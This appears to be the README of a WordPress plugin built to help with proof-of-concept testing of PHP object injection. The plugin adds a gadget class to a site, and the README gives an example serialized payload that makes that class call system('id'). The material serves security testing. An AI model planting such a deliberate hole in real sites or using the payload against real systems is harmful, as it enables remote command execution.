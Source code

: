 # WP Object Injection Proof of Concept

This is a simple plugin to help in PoC's of PHP Object Injection in Wordpress.

## How use

First download the **WP-Object-Injection-PoC** plugin on your "wp-content/plugin" directory and then activate in your wordpress dashboard. 

Now you can easily do the PoC of insecure deserialization without worrying about POP chains.

## Payload Example
```php
echo serialize(new ObjectInjection("system","id"));
// O:15:"ObjectInjection":2:{s:20:"ObjectInjectioncmd";s:2:"id";s:20:"ObjectInjectionfcn";s:6:"system";}
```
## References
- https://www.php.net/manual/en/language.oop5.magic.php
- https://www.php.net/manual/en/function.unserialize.php
- https://www.owasp.org/images/9/9e/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf

